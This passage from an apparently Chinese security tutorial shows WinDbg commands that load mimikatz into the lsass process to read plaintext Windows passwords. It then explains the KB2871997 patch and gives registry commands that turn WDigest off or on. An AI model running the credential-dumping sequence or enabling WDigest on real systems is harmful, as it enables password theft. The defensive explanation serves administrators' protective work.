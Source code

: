 

依次在 kd>  中输入下面的命令 



```
.symfix     #设置符号路径       
.reload     #重新载入      
.load  D:\mimikatz\x64\mimilib.dll   #这个路径是你mimikatz的路径      
!process 0 0 lsass.exe      #查找lsass进程，并将该进程转到本机环境中      
.process /r /p fffffa801ae19060            #这里的fffffa801ae19060 是上一步查找lsass进程的地址，注意替换      
!mimikatz        #载入mimikatz，读取密码
```




可以看到，已经读取出密码来了 



![](https://img-blog.csdnimg.cn/20181129183252423.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



管理员如何防止主机密码被抓取(KB2871997补丁)

---------------------------



微软为了防止用户密码在内存中一明文形式泄露，发布了补丁KB2871997，关闭了Wdigest功能。



Windows Server2012及以上版本默认关闭Wdigest，使攻击者无法从内存中获取明文密码。Windows Server2012以下版本，如果安装了KB2871997补丁，攻击者同样无法获取明文密码。



在日常网络维护中，通过查看注册表项Wdigest，可以判断Wdigest功能的状态。如果该项的值为1，用户下次登录时，攻击者就能使用工具获取明文密码。应该确保该项的值为0，使用户明文密码不会出现在内存中。



在命令行环境开启或关闭Wdigest Auth，有如下两种方法：



**1：使用 red add命令**



```
开启Wdigest Auth，命令如下      
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f       
关闭Wdigest Auth，命令如下      
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```




**2：使用PowerShell**

